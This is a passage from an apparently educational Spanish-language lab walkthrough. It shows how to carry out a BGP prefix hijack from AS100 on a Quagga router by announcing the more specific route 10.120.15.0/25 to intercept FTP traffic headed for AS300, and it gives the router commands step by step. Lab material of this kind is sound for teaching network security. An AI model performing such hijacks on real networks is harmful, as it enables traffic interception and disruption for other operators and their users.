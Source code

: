 ```bash
    4 Byte AS: advertised and received
    Route refresh: advertised and received(old & new)
    Address family IPv4 Unicast: advertised and re
```

Podemos ver que nuestros "vecinos" son AS200 y AS300, como habiamos visto por las interfaces de red.

El servidor FTP que queremos interceptar está en **_10.120.15.0/24_** en el AS300. Actualmente, el tráfico salta de AS200 (cliente FTP) a AS300 (servidor FTP).

Para que el secuestro ocurra según lo previsto, debemos anunciar una red específica que no sea 10.120.15.0/24 en AS100 para que el tráfico se enrute hacia nosotros.

Vamos a configurar AS100:

Lo primero será entrar en el modo configuración, se puede hacer escribiendo "configure terminal"

```bash
r1# configure terminal 
r1(config)# 
```

Debemos decir que estamos en AS100

```bash
r1(config)# router bgp 100
r1(config-router)#
```

Ahora ya podemos configurar las rutas...  Ahora debemos añadir el rango de red que queremos ofrecer, en nuestro caso, 10.120.15.0/25

```bash
r1(config-router)# network 10.120.15.0/25
r1(config-router)#
```

Ahora tendremos que salvar los cambios de la siguiente forma:

```bash
r1(config-router)# exit
r1(config)# write
% Unknown command.
r1(config)# exit
r1# write
Building Configuration...
Configuration saved to /etc/quagga/zebra.conf
Configuration saved to /etc/quagga/bgpd.conf
[OK]
```

El siguiente paso es borrar las rutas y volver a anunciar la red de la siguiente forma:

```bash
r1# clear ip bgp * out
r1#
```
